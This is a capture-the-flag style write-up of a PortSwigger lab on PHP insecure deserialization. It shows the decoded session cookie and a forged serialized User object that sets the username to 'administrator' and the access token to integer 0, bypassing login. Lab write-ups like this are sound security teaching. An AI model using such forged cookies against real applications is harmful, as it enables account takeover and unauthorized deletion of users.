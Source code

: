 # URL
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types
# objective
This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the `administrator` account. Then, delete the user `carlos`. You have access to the crendentials `wiener:peter`.
# method of solve
1) Login to the application with your provided credentials `wiener:peter`
2) We've been told that the session cookie contains serialized information, so we copy the cookie from the Web developer tools
3) Paste the cookie into a terminal and decode it using base64 (note that we replace the %3d pattern with the equals sign, since cookies use URL encoding):
```
echo -n 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJnY2Y5aGExbzNlc2ptcXY1ZWQzajhicTRvZmR2ODNkZyI7fQ==' | base64 -d
```
The output is a serialized object, and we want to modify it to ID us as the `administrator` user, but we also need to set the access token to false:
4) Echo out the modified cookie value, then base64 encode it:
```
echo -n 'O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}' | base64 -w 0
```
5) Take the output of the command and replace the cookie value in the web browser, then refresh the page
6) We are now logged in as the `administrator` user, so we can delete the `carlos` user account from the `Admin Panel` page to complete the lab

